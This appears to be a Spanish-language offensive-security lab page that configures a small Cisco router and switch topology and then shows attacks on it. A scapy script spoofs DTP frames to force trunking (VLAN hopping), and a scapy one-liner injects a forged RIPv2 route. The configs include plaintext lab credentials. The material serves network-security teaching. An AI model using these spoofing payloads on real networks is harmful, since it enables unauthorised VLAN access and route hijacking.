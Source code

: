 ```yaml
---
theme: "just-the-docs"
title: "LAB Ofensivo: Escenario 01"
layout: default
nav_order: 5
parent: "Lab Ofensivo" 
---
```

# LAB Ofensivo: Escenario 01
## Topologia a configurar
![Escenario 01](Escenario01.png)
## Configuracion equipos de comunicaciones
### RTA
```
hostname RTA
!
username dpacheco password lesand2024
enable secret 2024
line vty 0 15
 login local
!
int g0/1
 ip add 192.168.3.1 255.255.255.0
 no shut
!
router rip
 version 2
 network 192.168.3.0
 network 192.168.4.0
 !
 interface lo1
  ip add 192.168.4.10 255.255.255.0
!
ip dhcp excluded-address 192.168.1.1 192.168.1.5
ip dhcp excluded-address 192.168.0.1 192.168.0.5
!
ip dhcp pool V10
 network 192.168.0.0 255.255.255.0
 default-router 192.168.0.1
!
ip dhcp pool V20
 network 192.168.1.0 255.255.255.0
 default-router 192.168.1.1
```
### RTB
```
hostname RTB
!
username dpacheco password lesand2024
enable secret 2024
!
line vty 0 15
 login local
!
int g0/1
 ip add 192.168.3.2 255.255.255.0
 no shut
!
int g0/0
 no shut
int g0/0.10
 encapsulation dot1q 10
 ip add 192.168.0.1 255.255.255.0
int g0/0.20
 encapsulation dot1q 20
 ip add 192.168.1.1 255.255.255.0
!
router rip
 version 2
 network 192.168.3.0
 network 192.168.0.0
 network 192.168.1.0
 !
int g0/0.10
 ip helper-address 192.168.4.10
int g0/0.20
 ip helper-address 192.168.4.10
```
### SW1
```
hostname SW1
vlan 10
vlan 20
int Gi0/0
 switchport trunk encapsulation dot1q
 switchport mode trunk
int Gi1/1
 switchport mode access
 switchport access vlan 10
int Gi1/2
 switchport mode access
 switchport access vlan 20
```

## Reconocimiento usando Llaitun
Avtivamos el ambiente virtual y ejecutamos Llaitun como root
```
cd Desktop/tools                                                         ─╯
source ENV-LLAITUN/bin/activate   
sudo $(which python) Llaitun.py --live 
```
## Instalacion y ejecucion de scapy
```
sudo apt-get install python3-scapy                                       ─╯
sudo scappy
```
### Ejemplo Script para DTP (scapy Modo Libreria)
```
from scapy.all import *
load_contrib("dtp")
ASD = sniff(filter="ether[20:2] == 0x2004",count=1)    

ASD[0].src="00:00:00:13:54:2d"
ASD[0][DTP][DTPStatus].status='\x03'
#ASD[0][DTP][DTPType].dtptype='E'
sendp(ASD[0])
```
### Ejemplo Script para RIPv2 (scapy Modo Interactivo)
```
sendp(Ether(dst="01:00:5e:00:00:09", src="aa:bb:cc:00:11:22", type=0x8100)/Dot1Q(prio=0, id=0, vlan=20, type=0x0800)/IP(tos=192,ttl=2,proto=17,src="192.168.1.10",dst="224.0.0.9")/UDP(sport=520, dport=520)/RIP(cmd=2,version=2)/RIPEntry(AF=2, RouteTag=1354, addr="8.8.8.8", mask="255.255.255.255", nextHop="0.0.0.0", metric=1))
```
